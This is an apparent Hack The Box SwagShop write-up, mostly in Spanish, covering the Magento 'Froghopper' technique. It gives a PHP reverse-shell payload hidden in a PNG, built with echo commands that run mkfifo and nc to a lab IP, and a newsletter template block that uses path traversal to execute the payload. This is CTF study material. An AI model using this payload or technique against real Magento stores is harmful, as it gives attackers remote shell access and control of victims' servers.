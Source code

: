 
## DESCRIPTION



#### Mas información
* https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper
* https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html


## EXPLOITATION

1. Entramos en el panel del Admin y luego en System → Configuración
![[Pasted image 20230421144309.png]]

2.  Despues accedemos al menu de ADVANCE y luego a Developer

![[Pasted image 20230421144337.png]]

3. Accedemos a Template Setting y activamos (yes) el “Allow Symlinks”

![[Pasted image 20230421145346.png]]

4. Then I got a blank png image and echoed a php reverse shell to it :
Creamos una imagen con una reverse shell en php:

```
echo '<?php' >> shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> shell.php.png
echo '?>' >> shell.php.png
```
![[Pasted image 20230421174353.png]]
5. Accedemos a Catalog → Manage Categories
![[Pasted image 20230421174408.png]]

6.  Creamos una categoría y subimos la reverse shell
![[Pasted image 20230421174429.png]]

7.  Newsletter –> Newsletter Templates → Creamos una nueva template

![[Pasted image 20230421174449.png]]
```
	{{block type='core/template' template='../../../../../../media/catalog/category/shell.php.png'}}
```

8. Then I saved the template and clicked on the preview template button :
![[Pasted image 20230421174541.png]]

9. NC
![[Pasted image 20230421174546.png]]
## MACHINES

* Hack The Box: SWAGSHOP

